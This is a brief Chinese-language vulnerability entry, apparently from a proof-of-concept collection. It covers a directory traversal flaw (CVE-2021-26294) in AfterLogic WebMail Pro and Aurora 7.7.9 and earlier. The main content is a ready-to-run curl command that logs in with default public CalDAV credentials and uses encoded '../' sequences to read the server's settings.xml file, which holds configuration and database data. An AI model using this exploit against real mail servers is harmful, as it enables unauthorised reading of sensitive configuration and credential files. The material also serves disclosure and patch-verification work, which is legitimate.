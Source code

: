 # WebMail Pro 7.7.9 目录遍历 (CVE-2021-26294)

7.7.9及所有更低版本的AfterLogic Aurora和WebMail Pro产品受影响，允许未经授权的攻击者读取文件，比如数据库/用户配置文件等。

PoC：


```
curl -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/personal/%2e%2e/%2e%2e//%2e%2e//%2e%2e/data/settings/settings.xml"
```

ref：

* https://nvd.nist.gov/vuln/detail/CVE-2021-26294
* https://github.com/E3SEC/AfterLogic/blob/main/CVE-2021-26294-exposure-of-sensitive-information-vulnerability.md